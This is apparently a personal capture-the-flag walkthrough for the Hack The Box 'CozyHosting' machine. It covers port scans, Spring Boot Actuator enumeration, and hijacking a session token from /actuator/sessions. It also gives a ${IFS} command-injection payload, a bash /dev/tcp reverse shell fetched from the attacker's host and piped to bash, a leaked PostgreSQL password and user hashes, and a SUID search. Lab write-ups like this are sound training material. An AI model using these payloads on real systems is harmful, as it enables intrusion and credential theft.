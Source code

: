 - ping machine
	- `ping ###.###.###.###`
```bash

```

- nmap for open ports
	- `nmap -p- -T4 --open -Pn -vvv ###.###.###.### -oN nameNmap.txt`
	- or ''
```bash
 kali@kali  ~/htb/cozyhosting  cat cozyhostingNmap.txt 
# Nmap 7.95 scan initiated Sun Feb  2 12:40:07 2025 as: /usr/lib/nmap/nmap --privileged -p- -T4 --open -Pn -oN cozyhostingNmap.txt 10.10.11.230
Nmap scan report for 10.10.11.230
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

# Nmap done at Sun Feb  2 12:40:24 2025 -- 1 IP address (1 host up) scanned in 17.02 seconds
```

- nmap for services and versions running on open ports
	- `nmap -p port#, port#, port# -sC -sV ###.###.###.### -oN nameServicesVersionsNmap` 
```bash
 kali@kali  ~/htb/cozyhosting  cat cozyhostingVersionsNmap.txt 
# Nmap 7.95 scan initiated Sun Feb  2 12:56:42 2025 as: /usr/lib/nmap/nmap --privileged -p 22,80 -sC -sV -oN cozyhostingVersionsNmap.txt 10.10.11.230
Nmap scan report for cozyhosting.htb (10.10.11.230)
Host is up (0.076s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Cozy Hosting - Home
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb  2 12:56:53 2025 -- 1 IP address (1 host up) scanned in 11.03 seconds
```

- Gobuster to enumerate website if machine has 80 or 443
	- `gobuster dir -u http://precious.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt -o nameGobuster.txt -t 10`
```bash

```
- -or-
- ffuf to enumerate website if machine has 80 or 443
	- ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.10.10/FUZZ -e .php,.txt -t 10
	- ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://10.10.10.10/FUZZ
	- `ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://cozyhosting.htb/FUZZ -t 10 -r`
	- ffuf reveals 
		- admin that redirects to login
		- login page
		- index - homemage
		- logout that redirects to login
		- error page that reveals "Whitelabel Error Page"
```bash
 kali@kali  ~  ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://cozyhosting.htb/FUZZ -t 10 -r
 -o cozyHostingFfuf.txt

        /'___\  /'___\           /'___\ 
       /\ \__/ /\ \__/  __  __  /\ \__/ 
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cozyhosting.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Output file      : cozyHostingFfuf.txt
 :: File format      : json
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500 
________________________________________________

admin                   [Status: 401, Size: 97, Words: 1, Lines: 1, Duration: 116ms]
login                   [Status: 200, Size: 4431, Words: 1718, Lines: 97, Duration: 68ms]
error                   [Status: 500, Size: 73, Words: 1, Lines: 1, Duration: 100ms]
index                   [Status: 200, Size: 12706, Words: 4263, Lines: 285, Duration: 140ms]
logout                  [Status: 204, Size: 0, Words: 1, Lines: 1, Duration: 74ms]
#www                    [Status: 200, Size: 12706, Words: 4263, Lines: 285, Duration: 120ms]
#mail                   [Status: 200, Size: 12706, Words: 4263, Lines: 285, Duration: 74ms] 
:: Progress: [19966/19966] :: Job [1/1] :: 72 req/sec :: Duration: [0:04:20] :: Errors: 0 ::
```
- ![[Pasted image 20250208174348.png]]
- researching "Whitelabel Error Page" reveals 
	- it is a default error that appears in Spring Boot when and exception occurs
	- Spring Boot has it's own wordlist within SecLists 
	- We re-run ffuf with the spring-boot wordlist
	- this reveals Actuator, which is a API for SpringBoot
	```bash
 kali@kali  ~  ffuf -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt -u http://cozyhosting.htb/FUZZ -t 10 -r -o cozyHostingFfuf.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cozyhosting.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/spring-boot.txt
 :: Output file      : cozyHostingFfuf.txt
 :: File format      : json
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

actuator                [Status: 200, Size: 634, Words: 1, Lines: 1, Duration: 185ms]
actuator/env/path       [Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 83ms]
actuator/env/home       [Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 113ms]
actuator/env/lang       [Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 103ms]
actuator/env            [Status: 200, Size: 4957, Words: 120, Lines: 1, Duration: 166ms]
actuator/health         [Status: 200, Size: 15, Words: 1, Lines: 1, Duration: 134ms]
actuator/beans          [Status: 200, Size: 127224, Words: 542, Lines: 1, Duration: 122ms]
actuator/mappings       [Status: 200, Size: 9938, Words: 108, Lines: 1, Duration: 173ms]
actuator/sessions       [Status: 200, Size: 48, Words: 1, Lines: 1, Duration: 116ms]
:: Progress: [112/112] :: Job [1/1] :: 69 req/sec :: Duration: [0:00:01] :: Errors: 0 ::

```
	- /mappings provide a detailed over view of all the mappings configured in the application
	- navigating to /actuator/mappings reveals all of the mappings configured in the application
	- ![[Pasted image 20250209123948.png]]
	-  /sessions reveals all of the active sessions and their sessions ids
	- ![[Pasted image 20250209124540.png]]
	- copy the token, plug it in on the login page under -
	- Browser Dev Console, Storage, Cookies
	-  ![[Pasted image 20250209125443.png]]
	- Connection settings at the bottom - username field seems susceptible to command injection
		- error suggests that the service uses ssh to connect to the host
		- the command in the back end is likely `ssh -i id_rsa username@hostname`
	- ![[Pasted image 20250209145035.png]]
	- using 127.0.0.1 and Your Mom for username we detect that username cannot have whitespaces

	 - Spinning up a python server `python3 -m http.server 42069`
	 - in username `test;curl${IFS}http://10.10.16.7:42069;`
		 - ${IFS} represents the Internal Field Separator in Unix/Linux. By default, it's set to whitespace (spaces, tabs, newlines).
	 - ![[Pasted image 20250209145926.png]]
	```bash kali@kali  ~/htb/cozyhosting  python3 -m http.server 42069
	Serving HTTP on 0.0.0.0 port 42069 (http://0.0.0.0:42069/) ...
	10.10.11.230 - - [09/Feb/2025 14:59:13] "GET / HTTP/1.1" 200 -
```
	- Next step is to create a reverse shell in a file
	```bash
	 kali@kali  ~/htb/cozyhosting  vim yourMom.sh
	 kali@kali  ~/htb/cozyhosting  cat yourMom.sh 
	 bash -i >& /dev/tcp/10.10.16.4/42096 0>&1
```
- from the command line using curl
- `curl http://cozyhosting.htb/executessh -d 'host=127.0.0.1&username=test;curl${IFS}http://10.10.16.4:42069/yourMom.sh|bash;' `
- Reverse Shell into app@cozyhosting.htb 
	- looking in the directory we are dropped `app` into and we find a file called cloudhosting-0.0.1.jar.gz
	- pull down the file from the target machine to attack box
	- unzip the file and searching the files reveals username - postgres and password - Vg&nvzAQ7XxR
```bash
 kali@kali  ~/htb/cozyhosting/BOOT-INF/classes  cat application.properties 
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```


```bash
   name    |                           password                           
-----------+--------------------------------------------------------------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
(2 rows)
```

- search for exploits, RCEs, etc on service's versions running on those open ports
	- SearchSploit
	- Metaspolit
	- document

- Foothold - Look around and check things out for a second
	- search local directory
	- search root directory
	- sudo -l
	- look for exploitable binary's
		- `$ find / -perm /4000 2>/dev/null'
		- 
	